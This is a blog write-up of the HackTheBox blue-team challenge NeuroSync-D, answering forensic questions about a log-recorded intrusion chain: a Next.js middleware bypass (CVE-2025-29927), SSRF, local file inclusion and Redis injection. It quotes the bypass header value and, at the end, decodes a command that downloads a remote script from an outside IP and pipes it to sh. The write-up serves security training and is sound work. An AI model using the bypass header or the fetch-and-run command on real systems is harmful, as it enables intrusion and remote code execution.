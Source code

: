 +++
title = 'NeuroSync-D Sherlocks'
date = 2025-07-25T02:49:05-04:00
+++

# NeuroSync-D Sherlocks Challenge

![](/images/neurosync-d/neurosync-d.png)
*This is a write-up about the challenge NeuroSync-D, which is part of the Sherlocks challenges in HackTheBox focused on improving learners' proficiency in blue team security. As a web pentester, I honestly love investigating web attacks. Feels just like home, and this challenge was no different*

> Description: NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

We are provided with 5 log files: access, bci-device, data-api, interface, and redis. We will navigate through all this throughout the investigation.

**Task 1: What version of Next.js is the application using?**
> Looking at the interface, we see the application loading and the Next.js version indicated
![](/images/neurosync-d/task1.png)

**Task 2: What local port is the Next.js-based application running on?**
> Just below the version, we can see the application running on port 3000

**Task 3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?**
> Digging through the interface logs and following the attack methodology of the attack, we can see an attack happening from 11:37:59. The attack is clearly the Next.js Middleware Authorization Bypass Attack, where the attacker added the x-middleware-subrequest header and added more values to make exceed the MAX_RECURSION_DEPTH, which is set to 5 max, achieving authorization. This, is CVE-2025-29927.
![](/images/neurosync-d/task3.png)

**Task 4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?**
> Looking at the access.log, we can see the attacker starts enumeration by sending requests to /next/static/chunks, a folder he knows exists. He gets a couple of 404s, but lands on a valid file: main-app.js
![](/images/neurosync-d/task4.png)

**Task 5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?**
> Just after finding that, we see he sends a request to /static/chunks/app/page.js, then gets an endpoint that he starts fully dealing with: /api/bci/analytics

**Task 6: How many requests to this endpoint have resulted in an "Unauthorized" response?**
> From the logs, we can see the attacker sending 5 requests that result in a 401 response, then gets a 200 response.
![](/images/neurosync-d/task6.png)

**Task 7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?**
> From the 200 in the screenshot above, we can see the first successful request being made at: 2025-04-01 11:38:05

**Task 8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?**
> Navigate to the interface logs. Match the time the requests where made and you can see them, where he was gradually adding middleware to the x-middleware-subrequest. Since the last unsuccessful request was ["x-middleware-subrequest","middleware:middleware:middleware:middleware"], and we know the MAX_RECURSION_DEPTH is usually 5, hence the next exploited the endpoint successfully: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
![](/images/neurosync-d/task8.png)

**Task 9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?**
> Looking at the data-api.log, we see the api being accessed and bruteforced. It exists on port 4000 as seen
![](/images/neurosync-d/task9.png)

**Task 10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?**
> From the above screenshot, the logs show that the bruteforce was successful on the endpoint /logs, and log file is read successfully.

**Task 11: When the vulnerable endpoint found was used maliciously for the first time?**
> Just below it was found, we see the attacker performing a local file inclusion attack on the endpoint, exactly at: 2025-04-01 11:39:01

**Task 12: What is the attack name the endpoint is vulnerable to?**
> Well, that's a nobrainer is it? Local File Inclusion

**Task 13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?**
> The attacker tries a couple of files before landing on the last and successful one, secret.key
![](/images/neurosync-d/task13.png)

**Task 14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?**
> Since this was perfomed on the Redis server, go to the redis.log and observe the unusual commands. We find the following: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
![](/images/neurosync-d/task14.png)

**Task 15: Once decoded, what is the command?**
> Go to [Cybechef](https://gchq.github.io/CyberChef) and decode this. Or if you like the terminal just as you like me, decode this by simply:
> 
```
┌──(kali㉿kali)-[~]
└─$ echo "d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo" | base64 -d                                                                                           
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

Such an amazing challenge fr fr!!👽😎